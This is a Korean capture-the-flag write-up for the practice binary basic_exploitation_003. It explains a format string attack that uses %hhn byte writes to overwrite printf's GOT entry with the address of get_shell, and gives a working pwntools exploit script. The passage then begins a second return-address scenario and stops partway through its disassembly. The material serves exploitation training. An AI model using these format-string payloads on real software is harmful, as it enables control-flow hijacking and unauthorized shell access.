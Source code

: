 이번에는 전 문제와 다르게 상위 2byte는 같기에 하위 1byte만 변경하는 시나리오로 진행하겠습니다.

```python
p32(e.got['printf']) + p32(e.got['printf'] + 1) + b'%97c%1$hhn%29c%2$hhn'
```

* `%97c` : e.got['printf'] Little Endian 첫 1byte를 `get_shell`의 네번째 byte 값, **0x69** - 앞 두 인자 **8byte** = 97

* `%29c` : e.got['printf'] Little Endian 두번째 1byte를 `get_shell`의 세번째 byte 값, **0x86** - 앞 인자 총 값 **69byte** = 29(10진수)

* `%n` : **%97c**, **%29c** 제알 앞단에 사용한 `exit_got`(4byte)를 뺀 만큼의 문자열 길이를 참조 값에 저장

* `1$`, `2$` : `printf("ECHO : %s\n", stack_buf)`는 첫번째의 인자의 값을 가져오기에 `1$`로 첫번째 인자를 참조하겠다, 이후 두 개의 인자를 사용 시 두번째를 인자를 참조하겠다 명시

```python
from pwn import *

p = process('./basic_exploitation_003')
e = ELF('./basic_exploitation_003')

printf_got = e.got['printf']
get_shell = e.symbols['get_shell']

payload = p32(printf_got) + p32(printf_got + 1)
payload += b'%97c%1$hhn'
payload += b'%29c%2$hhn'

p.sendline(payload)
p.interactive()
```

### 두번째 시나리오

**RAO**라는 힌트를 줬으므로, RET를 변경하고자 한다.

  * `sprintf(stack_buf, heap_buf);`를 통한 입력값 위치 확인

  * `stack_buf, heap_buf`의 위치 파악

  * RET까지의 주소 계산

```C
char *heap_buf = (char *)malloc(0x80);
char stack_buf[0x90] = {};
initialize();

read(0, heap_buf, 0x80);
```

해당 코드를 disassemble 하여 위치를 파악한다.

```armasm
0x08048680 <+4>:     sub    esp,0x94
0x08048686 <+10>:    push   0x80
```
